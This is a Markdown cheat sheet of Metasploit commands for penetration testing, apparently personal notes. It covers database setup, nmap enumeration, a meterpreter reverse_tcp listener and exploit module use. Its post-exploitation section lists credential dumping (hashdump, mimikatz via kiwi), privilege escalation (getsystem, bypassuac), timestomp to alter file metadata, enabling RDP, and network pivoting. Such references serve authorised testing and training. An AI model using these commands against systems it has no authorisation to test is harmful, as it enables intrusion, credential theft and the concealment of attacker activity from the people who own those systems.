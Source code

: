 # starting
-   `systemctl enable postgresql`
-   `msfdb init`
-   `msfconsole`
-   `db_status`

# configure
-   `show -h`
-   `setg` set variable globally
-   `get`
-   `unset`
-   `save` save settings

# enumerate
-   `db_nmap -sV <ip>`
-   `hosts`
-   `services`
-   `vulns`
-   `connect` nc like functionality

# run listener
- `use multi/handler`
- `set PAYLOAD windows/meterpreter/reverse_tcp`
- `set LHOST <ip>`
- `set LPORT <port>`
- `exploit -j`
# exploit
-   `search <searchterm>`
-   `show exploits`
-   `use /path/to/module`
-   `back` 
-   `info` get module info for loaded module
-   `show options` show configurations for module
-   `set <option>`
-   `show payloads` show available payloads for selected module
-   `exploit` run exploit

# post 
## meterpreter
- `ps -U <user>`
- `migrate` requires SYSTEM user
- `getsystem`
- `getuid`
- `sysinfo`
- `getpid`
- `getprivs`
- `ipconfig`
- `background`
- `shell`
- `download` / `upload`
- `help`
- `hashdump`
- `timestomp` mod file metadata
- `load kiwi` mimikatz - get process under same user / arch as lsass
- `run autoroute -s 172.18.1.0 -n 255.255.255.0`
- `run post/multi/recon/local_exploit_suggester`
- `run run post/windows/gather/win_privs`
- `post/windows/manage/enable_rdp`

## modules
- `auxiliary/server/socks5` proxy
- `use exploit/windows/local/bypassuac`
- `sessions -u <id>` shell to meterpreter
- `use post/multi/manage/shell_to_meterpreter` shell to meterpreter
